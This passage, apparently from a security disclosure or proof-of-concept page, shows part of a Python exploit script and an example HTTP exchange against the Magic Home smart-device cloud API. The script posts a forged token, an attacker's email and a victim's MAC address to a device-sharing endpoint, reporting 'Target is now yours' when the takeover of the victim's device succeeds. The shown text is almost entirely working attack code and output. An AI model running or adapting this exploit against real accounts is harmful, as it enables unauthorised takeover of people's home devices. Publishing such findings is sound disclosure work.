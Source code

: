 ```
    array = {"friendUserID":attacker_email, "macAddress":target_mac}

    data = json.dumps(array)

    headers = {
        "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
        "Accept-Language": "en-US",
        "Accept": "application/json", 
        "Content-Type": "application/json; charset=utf-8",
        "token":forged_token,
        "Host": "wifij01us.magichue.net",
        "Connection": "close",
        "Accept-Encoding": "gzip, deflate"
    }
    
    response = requests.post(url, data=data, headers=headers)
    if response.status_code == 200:
        if "true" in response.text:
            print (Fore.GREEN + "[*] Target is now yours ... " + Style.RESET_ALL)
        else:
            print (Fore.RED + "[-] Failed to take over target !" + Style.RESET_ALL)

if __name__ == "__main__":
    if len(sys.argv) < 5:
        Usage()
    else:
        Main()
```

##### Example successful POST request/response exchange

```
POST Request

POST /app/shareDevice/ZG001 HTTP/1.1
User-Agent: Magic Home/1.5.1(ANDROID,9,en-US)
Accept-Language: en-US
Accept: application/json
token: <forged token, representing the target victim>
Content-Type: application/json; charset=utf-8
Content-Length: 72
Host: wifij01us.magichue.net
Connection: close
Accept-Encoding: gzip, deflate

{"friendUserID":"<attackercontrolled email>","macAddress":"<victim mac address>"}

Response

HTTP/1.1 200 
Server: nginx/1.10.3
Date: Tue, 07 Jul 2020 05:31:33 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 31

{"code":0,"msg":"","data":true}
```
